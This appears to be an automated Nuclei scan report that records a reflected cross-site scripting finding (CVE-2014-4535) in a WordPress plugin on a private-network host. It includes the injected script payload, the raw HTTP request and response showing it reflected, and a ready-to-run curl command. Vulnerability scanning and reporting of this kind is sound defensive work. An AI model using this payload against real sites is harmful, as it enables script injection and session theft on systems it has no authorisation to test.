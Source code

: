 ### Import Legacy Media <= 0.1 - Unauthenticated Reflected Cross-Site Scripting (CVE-2014-4535) found on http://192.168.198.179:8080/
---
**Details**: **CVE-2014-4535**  matched at http://192.168.198.179:8080/

**Protocol**: HTTP

**Full URL**: http://192.168.198.179:8080/wp-content/plugins/import-legacy-media/getid3/demos/demo.mimeonly.php?filename=filename%27%3E%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

**Timestamp**: Wed Jun 8 20:22:20 +0100 BST 2022

**Template Information**

| Key | Value |
|---|---|
| Name | Import Legacy Media <= 0.1 - Unauthenticated Reflected Cross-Site Scripting |
| Authors | daffainfo |
| Tags | cve, cve2014, wordpress, wp-plugin, xss |
| Severity | medium |
| Description | A cross-site scripting vulnerability in the Import Legacy Media plugin 0.1 and earlier for WordPress allows remote attackers to inject arbitrary web script or HTML via the filename parameter to getid3/demos/demo.mimeonly.php. |
| CVSS-Metrics | [CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N) |
| CWE-ID | [CWE-79](https://cwe.mitre.org/data/definitions/79.html) |
| CVE-ID | [CVE-2014-4535](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2014-4535) |
| CVSS-Score | 6.10 |

**Request**
```http
GET /wp-content/plugins/import-legacy-media/getid3/demos/demo.mimeonly.php?filename=filename%27%3E%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E HTTP/1.1
Host: 192.168.198.179:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_8_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/49.0.2656.18 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.0 200 OK
Connection: close
Content-Length: 279
Content-Type: text/html

<HTML><HEAD><TITLE>File Not Found</TITLE></HEAD><BODY><H1>Cannot find this file.</H1>The requested file: <B>/wp-content/plugins/import-legacy-media/getid3/demos/demo.mimeonly.php?filename=filename'></script><script>alert(document.domain)</script></B> was not found.</BODY></HTML>
```

References: 
- https://wpscan.com/vulnerability/7fb78d3c-f784-4630-ad92-d33e5de814fd
- https://nvd.nist.gov/vuln/detail/cve-2014-4535
- http://codevigilant.com/disclosure/wp-plugin-import-legacy-media-a3-cross-site-scripting-xss

**CURL Command**
```
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_8_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/49.0.2656.18 Safari/537.36' 'http://192.168.198.179:8080/wp-content/plugins/import-legacy-media/getid3/demos/demo.mimeonly.php?filename=filename%27%3E%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E'
```
---
Generated by [Nuclei 2.7.1](https://github.com/projectdiscovery/nuclei)